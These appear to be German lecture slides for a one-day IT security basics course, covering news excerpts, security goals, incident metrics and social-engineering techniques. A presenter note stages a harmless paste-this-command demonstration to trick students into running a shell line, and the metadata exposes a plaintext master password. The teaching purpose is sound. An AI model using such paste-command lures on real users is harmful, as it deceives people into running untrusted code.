



.. meta::
    :version: renaissance
    :author: Michael Eichberg
    :keywords: IT Sicherheit
    :description lang=de: Grundlagen IT Security - IT Schulung
    :id: schulung-it-security-grundlagen
    :first-slide: last-viewed
    :master-password: WirklichSchwierig!

.. include:: ../docutils.defs

IT Sicherheit - Grundlagen an einem Tag
=====================================================

:Dozent: `Prof. Dr. Michael Eichberg <https://delors.github.io/cv/folien.de.rst.html>`__
:Kontakt: michael.eichberg@dhbw.de
:Version: 1.0.1

.. supplemental::

  :Folien:
      |html-source|

      |pdf-source|
  :Fehler melden:
      https://github.com/Delors/delors.github.io/issues

Nachrichten aus der Welt der IT-Sicherheit
---------------------------------------------

.. deck::

    .. card::

        .. epigraph::

            .. rubric:: Paragon Spyware Tool Linked to Canadian Police

            Researchers at the University of Toronto's Citizen Lab in Canada said Ontario Provincial Police appear to have deployed spyware from Israel's Paragon on computers under its control. Spyware victims were Android phone users who were added to a WhatsApp group, where a malicious PDF file was sent to compromise devices via "zero click" intrusion. The researchers said Paragon's Graphite spyware has been linked to users in Australia, Canada, Cyprus, Denmark, Israel, and Singapore.

            -- `19.3.2025 - Bloomberg,  <https://www.bloomberg.com/news/articles/2025-03-19/paragon-spyware-tool-linked-to-canadian-police-watchdog-says?embedded-checkout=true>`__

    .. card::

        .. epigraph::

            .. rubric:: Paragon Spyware Tool mit kanadischer Polizei in Verbindung gebracht

            Forscher des *Citizen Lab* der Universität Toronto in Kanada haben festgestellt, dass die Polizei der Provinz Ontario offenbar Spyware des israelischen Unternehmens Paragon auf den von ihr kontrollierten Computern eingesetzt hat. Bei den Spyware-Opfern handelte es sich um Nutzer von Android-Telefonen, die zu einer WhatsApp-Gruppe hinzugefügt wurden, in der eine bösartige PDF-Datei per „Zero-Click“-Einbruch an kompromittierte Geräte gesendet wurde. Den Forschern zufolge wurde die Graphite-Spyware von Paragon mit Nutzern in Australien, Kanada, Zypern, Dänemark, Israel und Singapur in Verbindung gebracht.

            -- `19.3.2025 - Bloomberg (Übersetzt mit DeepL) <https://www.bloomberg.com/news/articles/2025-03-19/paragon-spyware-tool-linked-to-canadian-police-watchdog-says?embedded-checkout=true>`__

    .. card::

        .. epigraph::

            .. rubric:: CISA Warns of Active Exploitation in GitHub Action Supply Chain Compromise

            The U.S. Cybersecurity and Infrastructure Security Agency (CISA) on Tuesday added a vulnerability linked to the supply chain compromise of the GitHub Action, tj-actions/changed-files, to its Known Exploited Vulnerabilities (KEV) catalog.

            The high-severity flaw, tracked as CVE-2025-30066 (CVSS score: 8.6), involves the breach of the GitHub Action to inject malicious code that enables a remote attacker to access sensitive data via actions logs.

            -- `19.3.2025 - The Hacker News <https://thehackernews.com/2025/03/cisa-warns-of-active-exploitation-in.html>`__

    .. card::

        .. epigraph::

            .. rubric:: CISA warnt vor aktiver Ausnutzung einer Schwachstelle in der Lieferkette von GitHub-Aktion

            Die US-Behörde für Cybersicherheit und Infrastruktursicherheit (CISA) hat am Dienstag eine Schwachstelle im Zusammenhang mit der Kompromittierung der Lieferkette der GitHub-Aktion tj-actions/changed-files in ihren Katalog der bekannten ausgenutzten Schwachstellen (KEV) aufgenommen.

            Die hochgradig gefährliche Schwachstelle, die als CVE-2025-30066 (CVSS-Score: 8.6) verfolgt wird, beinhaltet die Verletzung der GitHub-Action, um bösartigen Code einzuschleusen, der es einem entfernten Angreifer ermöglicht, über Aktionsprotokolle auf sensible Daten zuzugreifen.

            -- `19.3.2025 - The Hacker News (Übersetzt mit DeepL) <https://thehackernews.com/2025/03/cisa-warns-of-active-exploitation-in.html>`__

    .. card::

        .. epigraph::

            **Indonesia won’t pay an $8 million ransom after a cyberattack compromised its national data center**

            [...] The attackers have held data hostage and offered a key for access in return for the $8 million ransom, said PT Telkom Indonesia’s director of network & IT solutions, Herlan Wijanarko, without giving further details. Wijanarko said the company, in collaboration with authorities at home and abroad, is investigating and trying to break the encryption that made data inaccessible. [...]

            -- June 25th, 2024 - `AP News <https://apnews.com/article/indonesia-ransomware-attack-national-data-center-213c14c6cc69d7b66815e58478f64cee>`__

    .. card::

        .. epigraph::

            **Crypto-Hackers Steal $2.2bn as North Koreans Dominate**

            Threat actors stole $2.2bn from cryptocurrency platforms in 2024, with the majority (61%) of illicit funds attributed to North Korean hackers, according to Chainalysis. [...]

            Notably, attacks between $50 and $100m, and those above $100m, occurred far more frequently in 2024 than they did in 2023, suggesting that the DPRK is getting better and faster at massive exploits[...].

            This increase is unfortunately also being matched by “a growing density” of hacks which yielded lower amounts of around $10,000 in value.[...]

            Some of these events appear to be linked to North Korean IT workers, who have been increasingly infiltrating crypto and Web3 companies, and compromising their networks, operations, and integrity.

            -- `19.12.2024 - Infosecurity Magazine <https://www.infosecurity-magazine.com/news/cryptohackers-steal-22bn-north/>`__

    .. card::

        .. epigraph::

            **Hackers shut down heating in Ukrainian city with malware**

            For two days in mid-January, some Ukrainians in the city of Lviv had to live without central heating and suffer freezing temperatures because of a cyberattack against a municipal energy company [...]

            [...], the cybersecurity company Dragos published a report with details about a new malware dubbed FrostyGoop, which the company says is designed to target industrial control systems [...]

            -- Juli 2024 - `Techcrunch <https://techcrunch.com/2024/07/23/hackers-shut-down-heating-in-ukrainian-city-with-malware-researchers-say/?guccounter=1>`__

    .. card::

        .. epigraph::

            **US government tells officials, politicians to ditch regular calls and texts**

            The U.S. government [CISA] is urging senior government officials and politicians to ditch phone calls and text messages following intrusions at major American telecommunications companies blamed on Chinese hackers. [...]

            The first recommendation: "Use only end-to-end encrypted communications." [...]

            --18.12.2024 - `Reuters <https://www.reuters.com/world/us/us-cyber-watchdog-tells-senior-officials-immediately-adopt-end-to-end-encryption-2024-12-18/>`__

    .. card::

        .. epigraph::

            **Want to Win a Bike Race? Hack Your Rival’s Wireless Shifters**

            Relatively inexpensive hardware can be used to hack the Shimano Di2 wireless gear-shifting systems used by cyclists [...]. They tested the eavesdrop-and-replay attack with a $1,500 USRP software-defined radio, an antenna, and a laptop but said the setup could be miniaturized. Attackers could spoof signals from up to 30 feet away, causing the target bike to shift gears unexpectedly or lock into the wrong gear.

            --August 2024 - `summary provided by ACM <https://technews.acm.org/archives.cfm?fo=2024-08-aug/aug-16-2024.html>`__; `full article: Wired <https://www.wired.com/story/shimano-wireless-bicycle-shifter-jamming-replay-attacks/>`__

    .. card::

        .. epigraph::

            **New RAMBO attack steals data using RAM in air-gapped computers**

            [...] A novel side-channel attack dubbed  "RAMBO" (Radiation of Air-gapped Memory Bus for Offense) generates electromagnetic radiation from a device's RAM to send data from air-gapped computers.

            .. container:: incremental

                [...] To conduct the Rambo attack, an attacker plants malware on the air-gapped computer to collect sensitive data and prepare it for transmission. It transmits the data by manipulating memory access patterns to generate controlled electromagnetic emissions from the device's RAM.

            .. container:: incremental

                [...] The RAMBO attack achieves data transfer rates of up to 1,000 bits per second (bps) [at a distance of up to 7 meters], equating to 128 bytes per second, or 0.125 KB/s.

            --September 2024 - `Bleepingcomputer  <https://www.bleepingcomputer.com/news/security/new-rambo-attack-steals-data-using-ram-in-air-gapped-computers/>`__

        .. supplemental::

            .. rubric:: Rambo Attack - weitere Details

            .. epigraph::

                The emitted data is encoded into "1" and "0", represented in the radio signals as "on" and "off." The researchers opted for using Manchester code to enhance error detection and ensure signal synchronization, reducing the chances for incorrect interpretations at the receiver's end.

                The attacker may use a relatively inexpensive Software-Defined Radio (SDR) with an antenna to intercept the modulated electromagnetic emissions and convert them back into binary information.

    .. card::

        .. epigraph::

            **SnailLoad: Exploiting Remote Network Latency Measurements without JavaScript**

            [Side-Channel Attack to circumvent privacy.]

            [...] The attack setup for SnailLoad. A victim downloads data from an attacker's HTTP server while it watches a video on a video-sharing platform, e.g., YouTube. Due to the network bottleneck on the victim's side, the attacker can infer the transmitted amount of data by measuring the packet round trip time. The round trip time traces are unique per video and can be used to classify the video watched by the victim. [...]

            -- 28.6.2024 Snailload: `Paper <https://www.snailload.com/snailload.pdf>`__, `Web <https://www.snailload.com>`__

    .. card::

        .. epigraph::

            **New PIXHELL Attack Exploits LCD Screen Noise to Exfiltrate Data from Air-Gapped Computers**

            A new side-channel attack dubbed PIXHELL could be abused to target air-gapped computers by breaching the "audio gap" and exfiltrating sensitive information by taking advantage of the noise generated by pixels on an LCD screen.

            Malware in the air-gap and audio-gap computers generates crafted pixel patterns that produce noise in the frequency range of 0 - 22 kHz," Dr. Mordechai Guri, the head of the Offensive Cyber Research Lab in the Department of Software and Information Systems Engineering at the Ben Gurion University of the Negev in Israel, said in a newly published paper. [...]

            -- 10. Sept. 2024 - `The Hacker News <https://thehackernews.com/2024/09/new-pixhell-attack-exploits-screen.html>`__

    .. card::

        .. epigraph::

            **FAST 4.000 VERHAFTUNGEN: Interpol gelingt großer Schlag gegen Onlinebetrug**

            Die Einsatzkräfte haben nicht nur weltweit Tausende von Verdächtigen verhaftet, sondern auch Vermögenswerte im Umfang von 257 Millionen US-Dollar beschlagnahmt.

            [...] Mit einem Gesamtwert von 135 Millionen US-Dollar besteht laut Interpol mehr als die Hälfte davon aus beschlagnahmten Fiat-Währungen wie US-Dollar, Euro oder Yen. Weitere zwei Millionen Dollar liegen in Form von Kryptowährungen vor. Hinzu kommen andere Vermögenswerte wie etwa Immobilien, Luxusfahrzeuge, teurer Schmuck und andere hochwertige Gegenstände und Sammlungen im Gesamtwert von 120 Millionen US-Dollar. [...]

            --29. Juni 2024 - `Golem.de <https://www.golem.de/news/fast-4-000-verhaftungen-interpol-gelingt-grosser-schlag-gegen-onlinebetrug-2406-186568.html>`__

    .. card::

        .. epigraph::

            *CEO VERHAFTET*

            Der Hersteller soll insgesamt 240.000 Geräte mit der DDoS-Funktion ausgestattet haben – teils ab Werk, teils erst nachträglich per Firmwareupdate.

            [...] In Südkorea sind fünf Mitarbeiter sowie der CEO eines Unternehmens verhaftet worden. Dieses soll Satellitenreceiver [...] auf Wunsch eines Kunden mit einer DDoS-Funktion ausgestattet haben. [...] lieferte der Hersteller 98.000 Geräte ab Werk mit dieser Funktion aus. [...]

            Dass Geräte ab Werk mit Schadsoftware ausgeliefert werden, ist gerade im unteren Preissegment keine Seltenheit. Sicherheitsforscher deckten erst im vergangenen Jahr eine Malware-Kampagne auf, bei der vor allem billige Android-Geräte wie Smartphones, Tablets und TV-Boxen aus China vor ihrer Auslieferung an Endkunden mit einer Schadsoftware ausgestattet worden waren.

            -- 3.12.2024 - `Golem.de <https://www.golem.de/news/ceo-verhaftet-satellitenreceiver-jahrelang-mit-ddos-funktion-ausgeliefert-2412-191354.html>`__

    .. card::

        .. epigraph::

            **U.S. charges 14 North Koreans in $88 million identity theft and extortion case**

            The Department of Justice accused 14 North Koreans of conspiring to use false identities to get IT jobs with U.S. companies and siphon money back to their home country.

            The indictment in Missouri federal court alleged that the conspiracy generated at least $88 million.

            The State Department said Thursday it is offering an up to $5 million reward for information about the conspirators and others associated with the two “North Korean front companies.”

            -- 12.12.2024 - `CNBC <https://www.cnbc.com/2024/12/12/north-koreans-charged-identity-theft-extortion-conspiracy-doj.html>`__

    .. card::

        .. epigraph::

            .. rubric:: UK cybersecurity agency warns over risk of quantum hackers

            **Organisations including energy and transport firms told to guard systems against powerful new computers**

            Guidance from the U.K.'s National Cyber Security Centre calls on large organizations, critical national infrastructure operators, and companies with bespoke IT systems to implement "post-quantum cryptography" to guard against future quantum hackers. These entities were urged to identify services in need of an upgrade by 2028. The guidance indicated that the most important upgrades should be completed by 2031, with migration to a new encryption system by 2035.

            -- `20.3.2025 - ACM Technews based on a report by The Guardian <https://www.theguardian.com/technology/2025/mar/20/uk-cybersecurity-agency-quantum-hackers>`__

    .. card::

        .. epigraph::

            .. rubric:: Britische Cybersicherheitsbehörde warnt vor der Gefahr von Quanten-Hackern

            **Organisationen, darunter Energie- und Transportunternehmen, sollen ihre Systeme gegen leistungsstarke neue Computer schützen**

            In einem Leitfaden [...] werden große Organisationen, Betreiber kritischer nationaler Infrastrukturen und Unternehmen mit maßgeschneiderten IT-Systemen aufgefordert, „Post-Quantum-Kryptografie“ zu implementieren, um sich gegen künftige Quanten-Hacker zu schützen. Diese Einrichtungen wurden aufgefordert, die Dienste zu identifizieren, die bis 2028 aufgerüstet werden müssen. Der Leitfaden besagt, dass die [...] die Migration auf ein neues Verschlüsselungssystem bis 2035 erfolgen sollte.

            -- `20.3.2025 - ACM Technews based on a report by The Guardian (Übersetzt mit DeepL) <https://www.theguardian.com/technology/2025/mar/20/uk-cybersecurity-agency-quantum-hackers>`__

    .. card::

        .. epigraph::

            .. rubric:: Jetzt updaten! Zero-Day-Sicherheitslücke in Chrome wird angegriffen

            **Google hat dem Webbrowser Chrome ein Update spendiert. Es schließt eine Zero-Day-Lücke, die bereits angegriffen wird.**

            Google hat in der Nacht zum Mittwoch eine Aktualisierung für den Webbrowser Chrome veröffentlicht. Sie stopft ein Zero-Day-Sicherheitsleck, das Angreifer bereits in freier Wildbahn missbrauchen. [...]  :incremental:`"Google hat Kenntnis von Berichten, dass ein Exploit für CVE-2025-2783 im Netz existiert".` :incremental:`[...] Demnach beginnt der Angriff mit einer Phishing-Mail, die vorgeblich zu einem Event des internationalen Wirtschafts- und Politikwissenschaftsforum einlädt und zu einem Programm sowie Anmeldeformular führt.` :incremental:`Beide Links führen im Webbrowser Chrome unter Windows jedoch zu einer Malware-Infektion, ohne weitere Interaktion der Opfer.`

            -- `26.3.2025 - Heise Security <https://www.heise.de/news/Jetzt-updaten-Zero-Day-Sicherheitsluecke-in-Chrome-wird-angegriffen-10328773.html>`__

Cybersicherheit ist das Geschäftsrisiko Nr. 1
-------------------------------------------------------------

.. epigraph::

    **Cybervorfälle wie Ransomware-Angriffe, Datenschutzverletzungen und IT-Unterbrechungen sind laut dem Allianz Risk Barometer im Jahr 2024 die größte Sorge für Unternehmen weltweit.** An zweiter Stelle steht die eng miteinander verknüpfte Gefahr der Betriebsunterbrechung. [...]

    Cybervorfälle (36% der Gesamteinsätze) sind zum dritten Mal in Folge das weltweit gefürchtetste Risiko [...]. Eine Datenschutzverletzung wird von den Befragten des Allianz Risk Barometers (59%) als die besorgniserregendste Cyberbedrohung angesehen, gefolgt von Angriffen auf kritische Infrastrukturen und physische Vermögenswerte (53%). [...]

    Cyberkriminelle suchen vermehrt nach Möglichkeiten, neue Technologien wie generative künstliche Intelligenz (KI) zu nutzen, um Angriffe zu automatisieren und zu beschleunigen und so effektivere Malware und Phishing zu schaffen. [...]

    -- Jan. 24 - `Allianz Risk Barometer 2024 <https://www.allianz-trade.de/wissen/wirtschafts-news/allianz-risk-barometer-2024-geschaeftsrisiken.html?utm_source=google&utm_medium=cpc&utm_campaign=[generic][mm][de][de][leadgen][trade_credit_insurance][e][p][b][p-max]-eh_wkv_p-max&_bt=&_bk=&_bm=&_bn=x&_bg=&gad_source=1&gbraid=0AAAAAC_uaZo7sk9ZvZrwUYEuUPFQbJoY1&gclid=Cj0KCQiAvP-6BhDyARIsAJ3uv7aL2d0IlFz61--XDPzi50sJUl5JjeneJlk3ehYu3pTYgkyDz0C0_cMaAtzKEALw_wcB>`__

Was ist Cybersecurity?
-----------------------

.. deck::

    .. card::

        .. epigraph::

            **Cybersecurity is the practice of protecting systems, networks, and programs from digital attacks**. These cyberattacks are usually aimed at accessing, changing, or destroying sensitive information; extorting money from users via ransomware; or interrupting normal business processes.

            -- July 4th, 2024 - `Cisco <https://www.cisco.com/c/en/us/products/security/what-is-cybersecurity.html>`__

    .. card::

        .. epigraph::

            [...] The security precautions related to computer information and access address four major threats: **(1) theft of data**, such as that of military secrets from government computers; **(2) vandalism**, including the destruction of data by a computer virus; **(3) fraud**, such as employees at a bank channeling funds into their own accounts; and **(4) invasion of privacy**, such as the illegal accessing of protected personal financial or medical data from a large database. [...]

            -- July 4th, 2024 - `Britannica <https://www.britannica.com/technology/computer-security>`__

    .. card::

        .. epigraph::

            **VERORDNUNG (EU) 2019/881 DES EUROPÄISCHEN PARLAMENTS UND DES RATES vom 17. April 2019 über die ENISA (Agentur der Europäischen Union für Cybersicherheit**

            *Artikel 2 Nummer 1*

            „Cybersicherheit“ bezeichnet alle Tätigkeiten, die notwendig sind, um Netz- und Informationssysteme, die Nutzer solcher Systeme und andere von Cyberbedrohungen betroffene Personen zu schützen [...]

            -- `Verordnung (EU) 2019/881 <https://eur-lex.europa.eu/legal-content/DE/TXT/PDF/?uri=CELEX:32019R0881>`__

    .. card::

        Das Ziel der IT-Sicherheit ist es Systeme vor:

        - Ausfall
        - Missbrauch
        - Sabotage
        - Spionage
        - Betrug und Diebstahl zu schützen

Wichtige Kennzahlen bzgl. Cybersecurity-Vorfällen\ [#]_
-----------------------------------------------------------------

.. story::

    .. class:: incremental-list

    :Mean Time to Detection (MTTD):
        Die mittlere Zeit, die benötigt wird, um einen Cyberangriff zu entdecken.

    :Mean Time to Identify (MTTI):
        Die mittlere Zeit, die benötigt wird, um einen Cyberangriff zu identifizieren in der Hinsicht, dass die Schwachstelle erkannt wird bzw. die Art des Vorfalls erkannt wird und eine erste Idee entwickelt wird, wie gegen den Angriff vorgegangen werden kann.

    :Mean Time to Respond (MTTR):
        Die mittlere Zeit, die benötigt wird, um auf einen Cyberangriff so zu reagieren, dass kein weiterer Schaden entsteht und der Weg zur Wiederherstellung der normalen Operationen eingeleitet werden kann.

    :Mean Time to Contain (MTTC):
        Die mittlere Zeit, die benötigt wird, um einen Cyberangriff einzudämmen. D. h. die Zeit, die benötigt wird, um zu verhindern, dass sich der Angriff weiter ausbreitet.

        MTTC = MTTD + MTTI + MTTR

    :Mean Time to Normal (MTTN) bzw. Mean Time to Recover/Restore/Resolve (MTTR):
        Die mittlere Zeit, die benötigt wird, um die normalen Operationen wiederherzustellen.

        Dies kann zum Beispiel auch die Zeit umfassen, die benötigt wird um etwaige Backups einzuspielen oder ggf. Firmware Patches einzuspielen.

.. [#] Die Begriffe sind nicht einheitlich definiert und ggf. ist es sinnvoll zu klären welcher Zeitraum genau gemeint ist.

.. supplemental::

    Die MTTD kann häufig nur im Nachgang genau ermittelt werden, sollte aber natürlich nachgefasst werden, um die eigenen Prozesse zu kontrollieren und ggf. zu verbessern. Insbesondere im Zusammenhang mit APTs können vergleichsweise lange Zeiträume bis zur Entdeckung vergehen. Zum Beispiel kann es sein, dass man als erstes feststellt, dass es unerwartete Verbindungen zu einem externen Server gibt. Zu diesem Zeitpunkt ist aber noch unklar wie der Angreifer vorgegangen ist, welche Daten ggf. schon abgeflossen sind und was genau zu tun ist, um den Angreifer zu stoppen. Es ist insbesondere auch noch nicht klar auf welche Systeme er bereits Zugriff hat.

    Die Zeit bis zum Beispiel erkannt wurde, dass ein bestimmter Account ausgenutzt wurde und dieser dann gesperrt wurde, oder zum Beispiel bestimmte Netzwerkverbindungen effektiv blockiert werden und begonnen werden kann mit der Wiederherstellung der Systeme, wird als MTTR bezeichnet.

    Die MTTC misst somit nicht wie lange es dauert bis alle Auswirkungen des Angriffs beseitigt sind/die normale Operation wiederhergestellt ist, sondern „nur“ wie lange es dauert die weitere Verbreitung zu stoppen.

.. class:: new-section transition-fade

Angriffe auf die Schutzziele der IT-Sicherheit
-------------------------------------------------------------

Ausgewählte Angriffe, Angriffsmethoden und Bedrohungsszenarien
----------------------------------------------------------------

.. class:: incremental-list

- Backdoors (:ger:`Hintertüren`)
- (Distributed-)Denial-of-service Angriffe
- Direct-access Angriffe (d. h. physischer Angriff auf das System)
- Eavesdropping (:ger:`Abhören`)
- Malware
- Man-in-the-middle (MITM) Angriffe
- Privilege escalation (unterschieden werden: horizontale und vertikale)
- Side-Channel attacks (:ger:`Seitenkanalangriffe`)
- Spoofing (z. B. IP-Spoofing) (:ger:`Vortäuschen`)
- Social engineering (z. B. Phishing)

.. class:: incremental-list

- Advanced Persistent Threats (APT)
- *Store-now, Decrypt-later* (:ger:`Speichere jetzt, Entschlüssele später`)

.. supplemental::

    :Vertikale Privilege Escalation: Der Angreifer erhält Zugriff auf höhere Rechte, die er vorher nicht hatte.
    :Horizontale Privilege Escalation: Der Angreifer erhält Zugriff auf die Rechte einer anderen Person, die er vorher nicht hatte.
    :APT: Der Begriff *Advanced Persistent Threat* (≘ „fortgeschrittene, andauernde Bedrohung“) bezeichnet gezielte Cyberangriffe durch professionelle Gruppen (häufig *state sponsored*). Es werden in der Regel langfristige Ziele verfolgt. Diese dienen zum Beispiel der Spionage oder der Vorbereitung auf einen Cyberkrieg. Häufige Ziele sind Regierungen und Unternehmen sowie Organisationen, die über kritische Daten verfügen. Insbesondere in der Anfangsphase gehen die Angreifer sehr vorsichtig vor, um nicht entdeckt zu werden. Danach unterscheidet sich das Vorgehen je nach Zielsetzung. Häufig wird versucht den Zugriff auf das Zielsystem langfristig zu erhalten, um so an weitere Informationen zu gelangen.

Schutzziele der IT-Sicherheit: CIA-Triade
--------------------------------------------

.. raw:: html
    :class: center-content

    

    

        

        

        
Availability

        

Confidentiality

        

Integrity

    

.. supplemental::

    Confidentiality ≘ :ger:`Vertraulichkeit`

    Integrity ≘ :ger:`Integrität`

    Availability ≘ :ger:`Verfügbarkeit`

Erweiterte Schutzziele
--------------------------------------------

Neben den primären Schutzzielen, gibt es eine Reihe weiterer kontextabhängiger Schutzziele:

.. class:: incremental-list

:Verbindlichkeit/Nichtabstreitbarkeit (`Accountability/Non-repudiation`:eng:):
    Ein Akteur kann seine Handlungen nicht abstreiten.
:Pseudo-/Anonymisierung: Eine Person kann nicht (mehr) identifiziert werden.
:Authentizität (`Authenticity`:eng:): Ist eine Information echt bzw. vertrauenswürdig?

.. class:: new-section transition-fade

Social-Engineering Angriffe
-------------------------------------------------------------

Weitergehende Informationen
---------------------------------------------

.. presenter-note::

    Das Ziel ist es die Studierenden zu überzeugen den folgenden Text zu markieren und in die Konsole zu kopieren. Das Ziel ist es, dass die Studierenden sehen wie schnell man einen Angriff starten kann.

    Getestet unter Mac OS 15.2, mit dem eingebauten Terminal und einer Bash Shell (ZSH funktioniert nicht).

Falls Sie als Shell Bash nutzen und Linux oder Mac OS x verwenden, dann kopieren Sie bitte den folgenden Befehl in die Konsole, für weitergehende Informationen:

.. container:: monospaced

    .. raw:: html

        curl -f "does.not.exist" -s ; echo -e "You are doomed - don't copy code you don't trust\!\n" ;   curl https://github.com/Delors/delors.github.io/issues

Eigenschaften von Social-Engineering Angriffe
-------------------------------------------------------------

.. class:: incremental-list list-with-explanations

- **sind häufig die Ursache für erfolgreiche Angriffe**

  (Der Hacker Kevin Mitnick war praktisch immer aufgrund von Social Engineering erfolgreich.)
- stellen die größte Bedrohung für die Sicherheit von IT-Systemen dar
- es wird angenommen, dass die betroffenen Personen es in vielen Fällen nicht merken

  :incremental:`(Beispiel: Fake Bewerbungsgespräch)`
- mittels OSINT kann die Vorbereitung von Social-Engineering Angriffen vereinfacht werden
- neue technische Möglichkeiten (z. B. KI generierte Stimmen) erweitern die Angriffsmöglichkeiten

.. supplemental::

    .. rubric:: Beispiel eines fortgeschrittenen Social-Engineering Angriffs

    Ein vom Angreifer bewusst eingefädeltes Bewerbungsgespräch für eine Position als Administrator könnte zum Beispiel dazu genutzt werden, um Informationen über das Zielsystem zu erhalten, die für einen Angriff nützlich sind (z. B. welche Software wird eingesetzt, wie sieht die Architektur aus, ...). In diesem Fall ist davon auszugehen, dass ein Bewerber zum Beispiel durch ein Headhunter eine gutes Angebot gemacht wird und er dann im Rahmen des Gesprächs gebeten wird eine Sicherheitsarchitektur darzustellen, die er einführen würde. Es ist dann davon auszugehen, dass er auf seine bisherige Erfahrung zurückgreift und diese darstellt und er somit die Architektur des Zielsystems offenlegt.

    .. rubric:: Neue Gefahren

    Durch KI generierte Stimmen kann es Angreifern gelingen, z. B. durch das Vortäuschen einer Notlage einer nahestehenden Person, an Informationen zu gelangen.

**One Question Saved Ferrari from a Deepfake Scam**
-------------------------------------------------------------

.. epigraph::

    With one question, an executive at Ferrari stopped an effort to use deepfake technology to scam the company. CEO Benedetto Vigna (pictured) was impersonated on a call by deepfake software that, using a convincing imitation of Vigna's southern Italian accent, said he needed to discuss something confidential that required an unspecified currency-hedge transaction to be carried out. The executive started to have suspicions and asked, for identification purposes, the title of the book Vigna had recently recommended to him. With that, the call ended.

    -- Juli, 2024 - Zusammenfassung: `ACM <https://technews.acm.org/archives.cfm?fo=2024-07-jul/jul-29-2024.html>`__\ ; Original: `‘I Need to Identify You': How One Question Saved Ferrari From a Deepfake Scam - Bloomberg <https://www.bloomberg.com/news/articles/2024-07-26/ferrari-narrowly-dodges-deepfake-scam-simulating-deal-hungry-ceo>`__

Ausgewählte Social-Engineering Angriffe
-------------------------------------------------------------

.. story::

    .. class:: incremental-list

    :Phishing and Spear Phishing:

        *Phishing* nutzt elektr. Kommunikationswege um an Informationen zu gelangen (z. B. E-Mail oder SMS).

        *Spear phishing* ist Phishing, bei der der Angreifer auf eine bestimmte Zielgruppe oder sogar eine einzelne Person abzielt.

    :Smishing:

        Phishing mit Hilfe von SMS.

    :Vishing:

        Phishing mit Hilfe von Telefonanrufen.

        (Z. B. `Anrufe von Europol <https://www.europol.europa.eu/publications-events/publications/vishing-calls>`__)

    :Quishing/QR phishing:

        Phishing mit Hilfe von QR Codes.

    :Whaling:

        Phishing, dass sich gegen hochrangige und sehr ausgewählte Personen richtet (z. B. den CEO eines Unternehmens).

    :Pharming:

        Manipulation des DNS-Servers, um den Nutzer auf eine gefälschte Webseite zu leiten, um dann sensitive Informationen zu erlangen.

    :Spam / Spam over Internet messaging (SPIM):

        Unerwünschte und nicht angeforderte E-Mail-Nachrichten oder Nachrichten in sozialen Medien bzw. Instant Messaging-Diensten.

    :Dumpster Diving:

        Durchsuchen von „Müllcontainern“ nach Informationen, die für einen Angriff nützlich sein könnten.

    :Shoulder Surfing:

        Beobachten von Personen, die sich an einem Computer anmelden, um das Passwort zu erfahren oder die sensitive Informationen auf dem Schreibtisch liegen haben.

    :Tailgating:

        Ein Angreifer nutzt die Zugangsberechtigung einer Person, um sich Zugang zu einem Gebäude zu verschaffen ohne dass die Person dies bemerkt oder gar zustimmt.

        Dies kann z. B. durch Zugangsschleusen verhindert werden, die immer nur einer Person den Zugang gewähren.

    :Identity Fraud:

        Identitätsdiebstahl. Der Angreifer gibt sich als jemand anderes aus, um an Informationen zu gelangen oder um eine Straftat zu begehen.

    :Invoice Scams:

        Versenden von Rechnungen, für Dienstleistungen und Produkte die man nicht gekauft hat (z. B. Rechnungen für Postzustellung.)

    :Credential Harvesting:

        Sammlung von Zugangsdaten, die durch Sicherheitslücken in Systemen oder durch Phishing erlangt wurden.

    :Hoax:
        Eine bewusste Falschmeldung, die Menschen dazu veranlasst etwas falsches zu glauben.

    :Impersonation oder Pretexting:
        Vorgabe einer falschen Identität (z. B. als Mitarbeiter des IT-Supports); d. h. der Angreifer gibt sich persönlich als jemand anderes aus, um an Informationen zu gelangen und nutzt dafür keine elektronischen Hilfsmittel.

    :Eavesdropping:
        Abhören von Gesprächen, um an relevante Informationen zu gelangen.

    :Eliciting Information:
        Der Angreifer versucht durch geschicktes Fragen an Informationen zu gelangen, die für einen Angriff nützlich sein könnten.

    :Baiting (`Ködern`:ger:):
        Der Angreifer bietet etwas an, um an Informationen zu gelangen (z. B. ein USB-Stick mit einem Virus, der sich beim Einstecken des USB-Sticks auf dem Rechner installiert.)

    :Watering Hole Attack:
        Der Angreifer infiziert eine Webseite, die von der Zielgruppe häufig besucht wird, um dann die Besucher der Webseite anzugreifen.

    :Typo Squatting:
        Ausnutzen von Tippfehlern durch das Registrieren einer Domain, die der Domain eines Zielunternehmens ähnelt, um dann Besucher der Webseite auf eine gefälschte Webseite zu leiten. (z. B. `www.gooogle.com`)

.. supplemental::

    .. rubric:: Quishing/QR phishing:

    D. h. der Angreifer erstellt einen QR Code, der auf eine gefälschte Webseite führt. Der QR Code wird dann z. B. auf einem Plakat angebracht oder zum Beispiel an einer Säule zum Kaufen von Fahrkarten, um möglichst viele Personen glaubhaft zu erreichen.

    .. rubric:: HOAX

